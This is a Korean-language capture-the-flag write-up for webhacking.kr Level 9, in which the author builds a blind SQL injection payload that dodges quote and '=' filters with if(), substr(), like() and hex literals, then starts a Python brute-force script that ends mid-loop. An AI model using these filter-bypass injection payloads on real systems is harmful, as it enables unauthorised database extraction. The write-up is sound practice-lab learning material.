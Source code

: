 먼저 조건의 결과 값으로 파싱해야 될 것 같아서 if문을 사용하였다.

<img src="http://eliez3r.synology.me/assets/img/writeup/webkr/Level 09/image-20180731091757513.png" width="500px">

> if(조건문, '참'일때, '거짓'일때)

이유는 파싱할 때 페이지의 소스값으로 파싱해야 되는데, no값에 따라서 페이지상에 문자들이 변경되기 때문이다.





<img src="http://eliez3r.synology.me/assets/img/writeup/webkr/Level 09/image-20180731085613262.png" width="500px">



위 사진을 살펴보면, id를 조회하면서 id가 'Apple'이면 no값이 1이되고, 아니면 0이된다.

거짓의 값을 '0'으로 한 이유는 if문이 만약 실제 존재하는 no값으로 하게되면, 둘다 출력이 되기 때문이다.





이제 싱글쿼터(')를 없애는 방법을 찾아야 한다.

문자열을 비교하면서 싱글쿼터를 사용하지 않는 방법 찾다가 substr()함수를 찾았다. 아래는 예시이다.

<img src="http://eliez3r.synology.me/assets/img/writeup/webkr/Level 09/image-20180731091956224.png" width="500px">

> substr(파라미터, 오프셋, 크기)





<img src="http://eliez3r.synology.me/assets/img/writeup/webkr/Level 09/image-20180731091104531.png" width="500px">

id의 1번째 값부터 1글자가 'A'(0x41) 인지 확인한다.



이제  `=` 를 없애야 한다. '='과 같은건? like!



따라서 공격쿼리는 다음과 같다. `if(substr(id,1,1)like(0x41),3,0)` 



<img src="http://eliez3r.synology.me/assets/img/writeup/webkr/Level 09/image-20180731123115742.png" width="500px">

정상적으로 잘 동작한다.

<img src="http://eliez3r.synology.me/assets/img/writeup/webkr/Level 09/image-20180731125505354.png" width="500px">

여기서 확인할 점이 있다. if분의 true부분이 무엇이냐에 따라서 결과값이 달라진다.

위 사진에서 3개의 명령쿼리가 있는데 차이점에 따른 결과를 잘 살펴보고 넘어가자.



이제 이를 이용하여 id값을 찾아야 하기 때문에 자동화스크립트를 만들자.

```python
from urllib2 import *
import urllib2, re, string


SESSION = "2b34290ec5cdc07d83045e392176a118"
password = ""

code = string.ascii_letters
for i in range(1,12):
    for j in code:
        search = "if(substr(id,"+str(i)+",1)like("+hex(ord(j))+"),3,0)"
        req = urllib2.Request("http://webhacking.kr/challenge/web/web-09/?no="+search)
        req.add_header("Cookie","PHPSESSID=%s" %SESSION)
        res = urllib2.urlopen(req).read()
```
